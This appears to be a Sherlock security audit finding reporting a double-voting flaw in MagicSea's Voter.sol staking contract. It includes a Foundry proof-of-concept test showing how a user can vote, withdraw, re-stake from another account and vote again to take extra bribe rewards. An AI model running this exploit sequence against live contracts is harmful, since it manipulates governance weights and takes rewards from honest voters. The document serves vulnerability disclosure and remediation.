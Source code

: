Furry Viridian Copperhead

High

# Users can double vote

## Summary
In the ``Voter.sol`` contract users can vote for a specific pool and increase the weight of that pool compared to other pools. Protocols that want users to vote for their pool can offer bribes to users in exchange for their votes for a specific pool, by adding a ``BribeRewarder.sol`` contract instance for a specific pool and voting period.  Users can vote by calling the [vote()](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L153-L219) function. There are a couple of requirements that a user must fulfill in order to vote:

```solidity
    function vote(uint256 tokenId, address[] calldata pools, uint256[] calldata deltaAmounts) external {
        if (pools.length != deltaAmounts.length) revert IVoter__InvalidLength();

        // check voting started
        if (!_votingStarted()) revert IVoter_VotingPeriodNotStarted();
        if (_votingEnded()) revert IVoter_VotingPeriodEnded();

        // check ownership of tokenId
        if (_mlumStaking.ownerOf(tokenId) != msg.sender) {
            revert IVoter__NotOwner();
        }

        uint256 currentPeriodId = _currentVotingPeriodId;
        // check if alreay voted
        if (_hasVotedInPeriod[currentPeriodId][tokenId]) {
            revert IVoter__AlreadyVoted();
        }

        // check if _minimumLockTime >= initialLockDuration and it is locked
        if (_mlumStaking.getStakingPosition(tokenId).initialLockDuration < _minimumLockTime) {
            revert IVoter__InsufficientLockTime();
        }
        if (_mlumStaking.getStakingPosition(tokenId).lockDuration < _periodDuration) {
            revert IVoter__InsufficientLockTime();
        }

        ...
    }
```
As can be seen from the above code snippet, a stake position **initialLockDuration** which represents the lock duration on creation and the **lockDuration** which represents the lock duration in seconds(in case the lock duration has been updated) are checked. However it is not checked how much time is left until a position can be unlocked. If a user can withdraw his **MLUM** staked tokens during an active voting period, he can first vote for a specific pool with the voting power of his current position, then withdraw the **MLUM** tokens he has staked for that position, transfer them to another account, create another staking position, and vote again  in the same voting period, thus voting with much more voting power that he is supposed to and influencing the weight of the pools. He can also receive more rewards from the ``BribeRewarder.sol`` contract instance attached to a specific pool. 
 
## Vulnerability Detail
[Gist](https://gist.github.com/AtanasDimulski/bc8b548900acaabaf8ccfd373a783679)

After following the steps in the above mentioned [gist](https://gist.github.com/AtanasDimulski/bc8b548900acaabaf8ccfd373a783679) add the following test to the ``AuditorTests.t.sol`` file:
```solidity
    function test_DoubleVoting() public {
        uint256 lockDurationAlice = 60 * 60 * 24 * 30 * 3; // 3 months with 30 days each
        mintMlumPosition(alice, 1e18, lockDurationAlice);
        uint256 lockDurationTom = 100 days;
        mintMlumPosition(tom, 1e18, lockDurationTom);

        ///@notice deposit reward tokens to the MlumStaking contract, ammount is not important for this test
        rewardToken.mint(address(mlumStaking), 10_000e6);
        ///@notice skip 90 days + 1 second, assume no voting periods happends during this period, this is not important for this test
        skip(lockDurationAlice + 1);

        vm.startPrank(bob);
        BribeRewarder rewarder;
        rewarder = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(bribeRewardToken, pool))));
        bribeRewardToken.mint(bob, 10_000e6);
        bribeRewardToken.approve(address(rewarder), type(uint256).max);
        rewarder.fundAndBribe(1, 1, 10_000e6);
        vm.stopPrank();

        vm.startPrank(owner);
        voter.startNewVotingPeriod();
        vm.stopPrank();

        vm.startPrank(alice);
        IMlumStaking.StakingPosition memory mlumPositionAlice;
        mlumPositionAlice = mlumStaking.getStakingPosition(1);
        address[] memory pools = new address[](1);
        uint256[] memory deltaAmounts = new uint256[](1);
        pools[0] = pool;
        deltaAmounts[0] = mlumPositionAlice.amountWithMultiplier;
        voter.vote(1, pools, deltaAmounts);
        console2.log("Alice amountWithMultiplier: ", mlumPositionAlice.amountWithMultiplier);
        vm.stopPrank();

        vm.startPrank(tom);
        IMlumStaking.StakingPosition memory mlumPositionTom;
        mlumPositionTom = mlumStaking.getStakingPosition(2);
        uint256[] memory deltaAmountsT = new uint256[](1);
        deltaAmountsT[0] = mlumPositionTom.amountWithMultiplier;
        voter.vote(2, pools, deltaAmountsT);
        console2.log("Tom amountWithMultiplier: ", mlumPositionTom.amountWithMultiplier);
        vm.stopPrank();

        vm.startPrank(alice);
        mlumStaking.withdrawFromPosition(1, mlumPositionAlice.amount - 1);
        stakingToken.transfer(attacker, stakingToken.balanceOf(alice));
        vm.stopPrank();

        uint256 votesBeforeDoubleVoting = voter.getVotesPerPeriod(1, pool);
        console2.log("Votes before double voting: ", votesBeforeDoubleVoting);

        vm.startPrank(attacker);
        stakingToken.approve(address(mlumStaking), type(uint256).max);
        mlumStaking.createPosition(stakingToken.balanceOf(attacker), lockDurationAlice);
        IMlumStaking.StakingPosition memory mlumPositionAttacker;
        mlumPositionAttacker = mlumStaking.getStakingPosition(3);
        uint256[] memory deltaAmountsA = new uint256[](1);
        deltaAmountsA[0] = mlumPositionAttacker.amountWithMultiplier;
        voter.vote(3, pools, deltaAmountsA);
        uint256 votesAfterDoubleVoting = voter.getVotesPerPeriod(1, pool);
        console2.log("Votes after double voting: ", votesAfterDoubleVoting);
        console2.log("Additional votes given to a pool due to double voting: ", votesAfterDoubleVoting - votesBeforeDoubleVoting);
        vm.stopPrank();

        ///@notice we skip after the end of the voting period so the full bribe rewards can be withdrawn 
        skip(2 weeks + 1);

        console2.log("Alice balance of bribeRewards token before withdraw: ", bribeRewardToken.balanceOf(alice));
        console2.log("Tom balance of bribeRewards token before withdraw: ", bribeRewardToken.balanceOf(tom));
        vm.startPrank(alice);
        rewarder.claim(1);
        vm.stopPrank();

        vm.startPrank(tom);
        rewarder.claim(2);
        vm.stopPrank();

        vm.startPrank(attacker);
        rewarder.claim(3);
        bribeRewardToken.transfer(alice, bribeRewardToken.balanceOf(attacker));
        vm.stopPrank();

        console2.log("Alice rewards in the bribeRewards token: ", bribeRewardToken.balanceOf(alice));
        console2.log("Tom rewards in the bribeRewards token: ", bribeRewardToken.balanceOf(tom));
    }
```

```solidity
Logs:
  Alice amountWithMultiplier:  1493100000000000000
  Tom amountWithMultiplier:  1547900000000000000
  Votes before double voting:  3041000000000000000
  Votes after double voting:  4534099999999999998
  Additional votes given to a pool due to double voting:  1493099999999999998
  Additional votes given to a pool due to double voting:  1493099999999999998
  Alice balance of bribeRewards token before withdraw:  0
  Tom balance of bribeRewards token before withdraw:  0
  Tom balance of bribeRewards token before withdraw:  0
  Alice rewards in the bribeRewards token:  6585936098
  Tom rewards in the bribeRewards token:  3413827100
```

As can be seen from the above logs, although Alice initially posses only **≈1.4931e18** voting power, she will be able to vote with an additional **≈1.493e18**, almost doubling her votes(note that the voting power of the second position created by a account controlled by Alice, depends on the time the staking position is locked for). As can be seen from the above logs is that Alice receives much bigger part of the rewards, despite the fact that she initially holds less voting power than Tom.

To run the test use: ``forge test -vvv --mt test_DoubleVoting``

## Impact
Users can double vote in certain conditions, and depending on the voting power of a certain user he can influence the weight proportions for a specific pool. For example a user holding 5% of all the voting power will be able to vote with 10%. Also users that double vote can receive much more rewards form the ``BribeRewarder.sol`` contract instance attached to a specific pool. 

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L153-L219

## Tool used
Manual Review & Foundry

## Recommendation
Consider adding a functionality which checks how much time is left for a position before it can be unlocked. And if it is less than the voting period duration, don't allow for the owner of that position to vote in the current voting period. 